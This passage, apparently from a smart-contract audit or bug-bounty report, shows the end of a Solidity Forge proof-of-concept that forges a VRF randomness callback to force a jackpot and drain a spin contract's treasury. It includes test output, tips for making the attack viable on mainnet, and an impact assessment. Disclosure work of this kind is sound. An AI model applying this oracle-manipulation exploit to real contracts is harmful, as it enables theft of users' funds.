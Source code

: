 ```solidity
    
    uint256[] memory jackpotRng = new uint256[](1);
    jackpotRng[0] = 0; // Forces jackpot: probability = 0 % 1e6 = 0 < any jackpotThreshold > 0
    
    // 6. Execute malicious VRF callback
    spin.handleRandomness(999, jackpotRng);
    
    // 7. Verify complete drain
    uint256 expectedJackpot = 100_000 ether; // Week 11 jackpot
    uint256 spinFeesPaid = spin.spinPrice(); // 2 ETH spin fee
    uint256 actualProfit = attacker.balance - initialBalance - spinFeesPaid;
    
    assertEq(actualProfit, expectedJackpot, "Jackpot not received");
    assertEq(address(spin).balance, contractBalanceBefore - expectedJackpot, "Treasury not drained");
}
```

**Note on vm.store Usage**: While this PoC uses Forge's `vm.store` for streak manipulation (not possible on mainnet), the core vulnerability remains valid - an attacker with **SUPRA_ROLE** can manipulate any randomness outcome. In practice, they could either:
1. Wait 13 days and perform legitimate daily spins to build streak naturally
2. Exploit during early weeks (requiring only 2-3 day streaks)
3. Combine with other vulnerabilities to manipulate streak storage

### PoC Results
```
[PASS] testPoCCriticalOracleManipulation() (gas: 237,812)
- Contract balance before: 100,010 ETH
- Contract balance after: 12 ETH (100k jackpot drained)
- Attacker profit: 100,000 ETH (single jackpot)
- Spin fees paid: 2 ETH
- Net profit: 99,998 ETH
- VRF oracle fully compromised
- Repeated exploitation capability demonstrated
- Tested on Solidity 0.8.25
```

## Impact Assessment

### Financial Impact
- **Maximum Single Exploit**: 100,000 ETH (week 11 jackpot)
- **Total Funds at Risk**: Entire treasury balance
- **Attack Cost**: ~2 ETH (spin fee) + gas costs
- **Profit Ratio**: ~50,000:1 return on investment

### Technical Impact
- Complete compromise of randomness-based security
- Bypass of all anti-gaming mechanisms
- Ability to manipulate all spin outcomes
- Potential for repeated exploitation until treasury depletion
